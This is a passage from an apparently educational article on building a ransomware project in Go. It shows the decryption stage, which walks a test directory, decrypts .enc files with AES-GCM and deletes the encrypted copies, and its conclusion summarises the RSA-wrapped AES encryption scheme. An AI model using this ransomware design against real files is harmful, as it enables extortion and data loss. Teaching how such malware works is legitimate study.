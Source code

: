 At this point, the AES key is decrypted and can be used to decrypt the files.

* * *

**Step 3:** Decrypt the `.enc` Files

- The script **walks through a directory** (`./testFiles`) to find all `.enc` files.
- It calls `decryptFile()` for each `.enc` file.

```
decryptDirectory("./testFiles", aesKey)
```

Inside `decryptDirectory()`, the script:

- **Iterates over all files** in the directory.
- If a file **ends with** `.enc`, it calls `decryptFile()`.

```
filepath.Walk(dir, func(path string, info os.FileInfo, err error) error {
    if err == nil && !info.IsDir() && filepath.Ext(path) == ".enc" {
        fmt.Println("Decrypting:", path)
        decryptFile(path, aesKey)
    }
    return nil
})
```

This ensures all encrypted files in `./testFiles` are found and processed.

#### Step 4: Decrypt Each File Using AES-GCM

- The script reads the encrypted file.
- It extracts the **nonce** (used for AES-GCM).
- It decrypts the content using AES-GCM.
- It writes the **decrypted** content back to a new file (removing`.enc` from the filename).

```
data, err := os.ReadFile(path)  // Read encrypted file
block, err := aes.NewCipher(aesKey)  // Initialize AES cipher
gcm, err := cipher.NewGCM(block)  // Initialize GCM mode
nonceSize := gcm.NonceSize()  // Get nonce size
nonce, ciphertext := data[:nonceSize], data[nonceSize:]  // Extract nonce and ciphertext
plaintext, err := gcm.Open(nil, nonce, ciphertext, nil)  // Decrypt
err = os.WriteFile(path[:len(path)-4], plaintext, 0666)  // Save decrypted file
if err == nil {
    os.Remove(path)  // Delete the encrypted file
}
```

Now the original, decrypted file is restored, and the encrypted `.enc` file is deleted.

* * *

### Conclusion

In this article, we explored the **design and implementation of a ransomware project** built using Go, focusing on how it encrypts and decrypts files securely using **RSA and AES encryption**. We started by generating a strong **RSA key pair**, using the public key to encrypt the AES key, ensuring only the private key could decrypt it. We then implemented file encryption and decryption, demonstrating how ransomware operates by locking files and demanding a decryption process.
